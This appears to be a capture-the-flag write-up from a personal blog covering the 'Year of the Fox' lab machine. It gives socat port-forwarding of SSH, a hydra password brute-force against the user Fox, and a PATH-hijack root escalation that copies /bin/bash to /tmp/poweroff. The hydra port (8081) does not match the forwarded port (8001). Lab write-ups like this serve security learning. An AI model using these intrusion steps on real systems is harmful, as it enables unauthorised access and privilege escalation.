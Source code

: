 ```yaml
---
layout: post
title: Year of the Fox
published: true
---
```


- RCE Identification and exploitation

    ![POC](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled.png)

- Exploitaion

    ![POC1](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled%201.png)

Port Forwarding 

- POC

    >> `tcp 0 0 127.0.0.1:22 0.0.0.0:* LISTEN -` 

    >> `netstat -tulw` shows `localhost:ssh`

    >> check `/etc/ssh/sshd_config` → shows `Listen Adress: 127.0.0.1, Allow User: Fox`

- Command to forward port 22 to 8001

    >> `socat tcp-listen:8001,reuseaddr,fork tcp:localhost:22` 

- Command to bruteforce Fox passwd

    >> `hydra -l user -P pss.txt -s 8081 <ip> -t 4 -V`

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/scr-200820-1711-51.png](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/scr-200820-1711-51.png)

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/scr-200820-1713-47.png)

- Root

    >> Identification

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%202.png](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled%202.png)

    >> Reversing Gets us (Path is not specified)

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%203.png](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled%203.png)

    >> Exploitaion

      >> `cp /bin/bash /tmp/poweroff`

      >> `export PATH=/tmp:$PATH`

